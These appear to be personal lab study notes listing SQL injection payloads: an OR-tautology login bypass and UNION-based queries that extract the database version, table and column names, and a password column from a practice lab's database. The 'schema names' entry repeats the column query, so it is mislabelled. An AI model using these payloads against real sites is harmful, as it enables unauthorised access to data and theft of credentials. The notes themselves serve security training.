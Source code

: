 
[[1. Introduction to SQL Injection]]
[[1. SQLi]]

## SQL Injection Payloads : 

- **Classic SQLi Payloads :** 

	- `1' OR '1'='1`
	- ![[{1E9AFC5D-ABC8-46E3-AD1C-0EB7A4F1B6DF}.png]]

	- `jeremy' union select null,null,null#`
	- ![[{B3F99883-71EE-4B4B-AC84-BAD85A9E26EC}.png]]

	- **Once you have this :**
		- *You can use `union` to extract information from the DB*.

	1. **SQL version :** 
		- `jeremy' union select null,null,version()#
		- ![[{97DA6F2F-B0B2-479F-BE77-9EA653AF2F56}.png]]
	2. **Get other table names :**
		- `jeremy' union select null,null,table_name from information_schema.tables#`
		-  ![[{45A3C4FF-CA58-420E-863B-E5DB77489685}.png]]
		- ![[{73A6E7E6-0E6A-41A8-A15C-7BF55B667EC4}.png]]
	3. **Get other column names :**
		- `jeremy' union select null,null,column_name from information_schema.columns#`
		- ![[{1EA249A9-0F9F-48FA-B90D-06A9DEAF433A}.png]]
		- ![[{4938031A-1BB8-42E4-B0C6-3D1C911AA74E}.png]]
	4. **Get other schema names :**
		-  `jeremy' union select null,null,column_name from information_schema.columns#`
		- ![[{B6C0C7AC-B7A1-4482-B80E-CE013D020E82}.png]]
	5. **Other variations of Union based payloads :**

		- `jeremy' union select null,null,database()#`
		
		- `jeremy' union select null,null,table_name from information_schema.tables WHERE table_schema='bb-labs'#`
			- ![[{D2A8AD43-ED68-4E17-8825-39ACAF1B69C1}.png]]
	6. **Get User password or in general if u want to get information from any tables :**

		- `jeremy' union select null,null,password from injection0x01#`
		- ![[{F7E9C2EE-C0A6-4DE2-8F79-62C5241F0D7D}.png]]